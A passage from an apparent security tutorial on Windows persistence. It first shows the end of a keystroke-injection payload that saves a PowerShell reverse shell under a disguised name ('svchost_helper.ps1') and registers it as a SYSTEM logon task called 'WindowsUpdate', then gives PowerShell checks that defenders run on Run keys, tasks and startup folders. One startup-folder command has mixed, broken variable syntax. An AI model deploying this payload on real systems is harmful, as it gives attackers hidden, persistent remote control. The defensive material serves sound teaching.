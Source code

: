 ```bash
        }
        $client.Close()
    } catch {
        Start-Sleep -Seconds 30
    }
}
"@
ENTER

STRING $reverseShell | Out-File -FilePath "C:\Windows\Temp\svchost_helper.ps1" -Encoding ASCII
ENTER

# Create scheduled task for persistence
STRING schtasks /create /tn "WindowsUpdate" /tr "powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\svchost_helper.ps1" /sc onlogon /ru SYSTEM /f
ENTER

STRING exit
ENTER
```

**Important:** This is for **authorized testing only**. Always ensure you have proper permissions and scope documentation.

---

## Detection and Defense

###  **How to Spot Persistence**

As a defender, you need to know what to look for:

#### **Registry Monitoring**
```powershell
# Check common persistence locations
Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce"
```

#### **Scheduled Task Analysis**
```powershell
# Review scheduled tasks
schtasks /query /fo table
Get-ScheduledTask | Where-Object {$_.State -eq "Ready"}
```

#### **Startup Folder Monitoring**
```powershell
# Check startup folders
Get-ChildItem "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup"
Get-ChildItem "$env:PROGRAMDATA%\Microsoft\Windows\Start Menu\Programs\Startup"
```
